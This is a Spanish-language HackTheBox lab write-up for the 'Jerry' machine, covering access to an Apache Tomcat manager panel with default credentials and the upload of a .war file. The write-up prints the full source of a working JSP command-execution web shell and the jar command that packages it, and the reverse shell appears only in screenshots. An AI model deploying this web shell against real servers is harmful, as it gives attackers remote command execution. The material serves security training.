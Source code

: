 ```yaml
---
layout: single
title: Jerry - HackTheBox
excerpt: "Explotación de un servidor Windows con Apache Tomcat expuesto. Aprovechamos credenciales por defecto y desplegamos una web shell mediante un archivo .war para obtener acceso como NT AUTHORITY\SYSTEM"
date: 2025-05-20
classes: wide
header:
  teaser: /assets/images/Jerry/Jerry.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - Apache-Tomcat
  - Nmap
  - Web shell
---
```


![](/assets/images/Jerry/Jerry.png){:style="max-width:450px;height:auto;"}

## Resumen

En la máquina Jerry de HackTheBox, realizamos un reconocimiento con nmap que reveló un servicio HTTP corriendo en el puerto 8080, específicamente una instancia de Apache Tomcat. Aprovechamos credenciales por defecto (tomcat:s3cret) para acceder al panel de administración y desplegar un archivo .war con una web shell. Finalmente, conseguimos ejecutar comandos en el sistema y establecer una reverse shell, obteniendo acceso como NT AUTHORITY\SYSTEM.

## Reconocimiento

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles. También ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Jerry/Reconocimiento-Puertos-Scripts.png)

El servidor expone el siguiente servicio:

- HTTP en el puerto 8080

## Página Web

El servicio web en el puerto 8080 contiene una web por defecto de 'Apache Tomcat':

![](/assets/images/Jerry/Web.png)

## Shell (NT Authority\System)

Si intentamos acceder a 'Manager App' nos dirá que no estamos autorizados, pero también nos proporcionan las credenciales por defecto:

![](/assets/images/Jerry/Web-Manager-App.png)

Si tratamos de iniciar sesión con las credenciales por defecto anteriormente obtenidas (tomcat:s3cret), podemos ver que son correctas:

![](/assets/images/Jerry/Web-Login.png)

Una vez dentro del panel administrador, podemos ver que podemos subir archivos con extensión 'war':

![](/assets/images/Jerry/Web-Create-War-File.png)

Para crear un archivo 'war' que nos proporcione una web shell, vamos a usar este de 'HackTricks':

![](/assets/images/Jerry/Web-Create-War-File-Web-Shell.png)

El servidor necesita un archivo comprimido con cierta estructura para poder crear el archivo 'war'.

Hay que crear dos directorios y dos archivos:

    mywar/
    ├── WEB-INF/
    │   └── web.xml
    └── index.jsp

- web.xml:

        <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
            http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
            version="3.1">

        <display-name>My JSP Command App</display-name>

        </web-app>

- index.jsp

        <%@ page import="java.util.*,java.io.*"%>
        <%
        //
        // JSP_KIT
        //
        // cmd.jsp = Command Execution (unix)
        //
        // by: Unknown
        // modified: 27/06/2003
        //
        %>
        <HTML><BODY>
        <FORM METHOD="GET" NAME="myform" ACTION="">
        <INPUT TYPE="text" NAME="cmd">
        <INPUT TYPE="submit" VALUE="Send">
        </FORM>
        <pre>
        <%
        if (request.getParameter("cmd") != null) {
                out.println("Command: " + request.getParameter("cmd") + "<BR>");
                Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                OutputStream os = p.getOutputStream();
                InputStream in = p.getInputStream();
                DataInputStream dis = new DataInputStream(in);
                String disr = dis.readLine();
                while ( disr != null ) {
                        out.println(disr); 
                        disr = dis.readLine(); 
                        }
                }
        %>
        </pre>
        </BODY></HTML>

Una vez hecho toda la estructura necesaria, comprimimos:

    jar -cvf cmd.war -C mywar .

Y subimos el archivo comprimido.

Una vez subido, vamos al panel para verificar que está:

![](/assets/images/Jerry/Web-War-File.png)

Nos dirigimos a la ruta:

![](/assets/images/Jerry/Web-Shell.png)

Y probamos que funcione con un comando:

![](/assets/images/Jerry/Web-Shell-Whoami.png)

Ahora ejecutamos una reverse shell:

![](/assets/images/Jerry/Rev-Shell-Content.png)

![](/assets/images/Jerry/Shell.png)

Las banderas 'User' y 'Root' se encuentran en el directorio 'Desktop' en la carpeta 'flags' del usuario 'Administrator':

![](/assets/images/Jerry/Flags.png)

### Conclusión

La máquina Jerry demuestra cómo un servicio mal configurado y el uso de credenciales por defecto pueden comprometer por completo un sistema. El entorno Apache Tomcat permite subir archivos .war, lo cual fue aprovechado para ejecutar código arbitrario y escalar privilegios hasta obtener control total. Esta práctica resalta la importancia de cambiar credenciales por defecto y restringir el acceso a paneles de administración.

